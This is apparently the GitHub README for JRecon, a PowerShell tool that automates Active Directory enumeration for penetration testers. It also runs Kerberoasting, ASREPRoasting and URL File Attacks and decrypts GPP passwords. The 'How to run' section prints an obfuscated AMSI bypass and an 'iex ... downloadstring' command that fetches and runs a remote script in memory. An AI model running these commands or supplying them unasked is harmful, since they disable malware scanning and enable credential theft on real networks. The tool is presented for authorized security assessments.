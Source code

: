 # JRecon
### A tool to automate Active Directory Enumeration
I've been working on this tool to automate a good part of the initial AD enumeration phase.

JRecon is not perfect, but it does it's job - while I can go grab a coffee

My advice is to run the tool within an empty working directory folder, and (if needed) re-run within the same folder. 

Why ? Because it uses some of the output it produces to perform other tasks.

No third-party tool is invoked from the internet, everything is embedded. Why ? Because we may have no access to internet or Github repositories during engagements, and tools may change syntax when updated which would brake JRecon. The only code that may significantly change in time is BloodHound collector, which I’ll try to keep updated.

JRecon will initially ask what tools you want to run. Why ? First of all to make sure you stay in scope, but also because it may not be the first time you run the tool. As a matter of fact, you may want to re-run some of the tasks as you move laterally within AD (e.g.: shares enumeration or BloodHound)

### What does the tool enumerate for ? Does it run any attack that I should be aware of ?

The only attacks it runs is Kerberoasting, ASREPRoasting, and URL File Attack. Everything else is just enumeration

JRecon will initially ask you if you want to download tools like Nessus, WinShareEnum, AdvIPScanner, HFS, VirtualBox, and Kali OS (these will actually be downloaded)

The tool enumerates for and performs (upon request):

•	AD objects and policies (subnets, computers, users, DCs, password policy and more)

•	Users Description field piping to file (excludes blank entries)

•	Creates a list of Servers

•	Creates a list of Hosts running Unsupported OS

•	Checks on Local Admins on the system

•	Checks if AV is installed

•	Checks for Local Admin Password Solution (LAPS)

•	Kerberoasting and ASREPRoasting

•	Checks for presence of Kerb Tickets in your local machine

•	Enumerates for Vulnerable GPOs

•	Checks for Misconfigured Certificate Templates

•	BloodHound collection

•	Checks for Exploitable Systems

•	Checks for LDAP Signing

•	Checks for Passwords in GPO (and decrypts them if it finds any)

•	Checks for Passwords in SYSVOL/Netlogon

•	Checks for Accessible shares (Read)

•	Checks for Writable shares (Write)

•	Asks you if you want to run a URL File Attack

### How to run ?

First bypass AMSI (example below)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Set a variable to download your licensed version of PingCastle

(If you skip this step PingCastle Free Edition will be downloaded - Not for commercial use)

```
$jpingdownload = "<URL>"
```

You can set the variable "$jYesToAll" to "All" (before running the tool) to make it run without asking questions

This feature is probably best to use if you know the tool already, and you know it won't go out of scope

```
$jYesToAll = "All"
```

Finally, invoke and run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/JRecon/main/JRecon.ps1')
```

## JRecon is a collection of other scripts and tools

### Which tools are included?


**Rubeus**

Rubeus is a C# toolset for raw Kerberos interaction and abuses.

@Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 

**Grouper3**

Find vulnerabilities in AD Group Policy, but do it better than Grouper2 did.

@Credit to: https://github.com/Group3r/Group3r
 

**Certify**

Active Directory certificate abuse. 

@Credit to: https://github.com/GhostPack/Certify


**LdapSignCheck**

C# project to check LDAP signing.

@Credit to: https://github.com/cube0x0/LdapSignCheck


**PingCastle** (Free Edition - **Not for commercial use**)

Get Active Directory Security at 80% in 20% of the time

@Credit to: https://github.com/vletoux/pingcastle


**SharpHound**

C# Data Collector for the BloodHound Project

@Credit to: https://github.com/BloodHoundAD/SharpHound


**ADRecon**

ADRecon is a tool which gathers information about the Active Directory

@Credit to: https://github.com/sense-of-security/ADRecon


**Invoke-Kerberoast**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1


**PowerView**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1


**Invoke-ShareFinder**

Author: Will Schroeder (@harmj0y)

@Credit to: https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-ShareFinder.ps1


**AmsiScanBuffer bypass**

Author: Rasta Mouse (@_RastaMouse)

@Credit to: https://twitter.com/_RastaMouse


**Get-ExploitableSystems**

Author: Scott Sutherland (@_nullbind)

@Credit to: https://github.com/nullbind/Powershellery/blob/master/Stable-ish/ADS/Get-ExploitableSystems.psm1


**Get-GPPPassword**

Author: Chris Campbell (@obscuresec)

@Credit to: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1


**PowerSharpPack**

Author: Fabian (@ShitSecure)

@Credit to: https://github.com/S3cur3Th1sSh1t/PowerSharpPack

**Nessus**

https://www.tenable.com

**hfs2**

https://github.com/rejetto/hfs2/

**WinShareEnum**

https://github.com/nccgroup/WinShareEnum

**AdvancedIPScanner**

https://www.advanced-ip-scanner.com/

**VirtualBox**

https://www.virtualbox.org/

**Kali OS**

https://www.kali.org/
